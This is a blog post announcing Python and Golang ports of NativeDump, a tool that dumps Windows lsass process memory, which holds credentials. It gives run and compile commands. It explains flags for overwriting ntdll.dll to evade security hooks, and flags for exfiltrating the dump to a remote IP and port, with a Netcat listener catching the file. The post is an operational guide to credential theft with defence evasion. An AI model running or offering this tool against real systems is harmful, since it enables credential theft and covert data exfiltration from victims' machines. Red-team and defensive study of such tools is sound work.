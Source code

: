 ```yaml
---
layout: post
title: NativeDump update - Python and Golang ports
excerpt_separator: <!--more-->
---
```


NativeDump allows to dump the lsass process using only. The original project is written in .NET and has been ported to Python and Golang, including 3 methods for ntdll overwrite and file exfiltration (both optional).

<!--more-->


<br>

--------------------------

# Python port - "python-flavour" branch

Repository: [python-flavour](https://github.com/ricardojoserf/NativeDump/tree/python-flavour)

This branch implements the same functionality as the main branch using Python3: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
python nativedump.py [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python1.png)


As an alternative, you can compile it to a single binary using pyinstaller with the "-F" flag:

 ```
pyinstaller -F nativedump.py
```

Or using Nuitka with the "--onefile" flag:

```
nuitka --onefile nativedump.py
```

![pythonexample](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python2.png)


You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Python4.png)

<br>


--------------------------

# Golang port - "golang-flavour" branch

Repository: [golang-flavour](https://github.com/ricardojoserf/NativeDump/tree/golang-flavour)

This branch implements the same functionality as the main branch using Golang: 

- Minidump file generation using only NTAPIS
- Overwrite the Ntdll.dll library (Optional)
- Exfiltrate the file to another host (Optional)

You can run it as a script:

```
go run nativedump.go [-o OPTION] [-k PATH] [-i IP_ADDRESS] [-p PORT_ADDRESS]
```

![golang1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang1.png)


As an alternative, you can compile it to a binary:

 ```
go build
```

![golang2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang2.png)

You can use the *-o* parameter for overwriting the ntdll.dll library:
- "disk": Using a DLL already on disk. If *-k* parameter is not used the path is "C:\Windows\System32\ntdll.dll".
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. If *-k* parameter is not used the process is "c:\windows\system32\calc.exe"

You can use *-i* (IP address) and *-p* (port) parameters to exfiltrate the file to another host, not creating a local file.

In this example, the ntdll.dll library is overwritten from a debug process, the Minidump file is generated and exfiltrated to 192.168.1.72:1234:

![ntdlloverwrite](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang3.png)

The Netcat listener receives the file correctly:

![dumpfile](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/nativedump/Screenshot_Golang4.png)

<br>
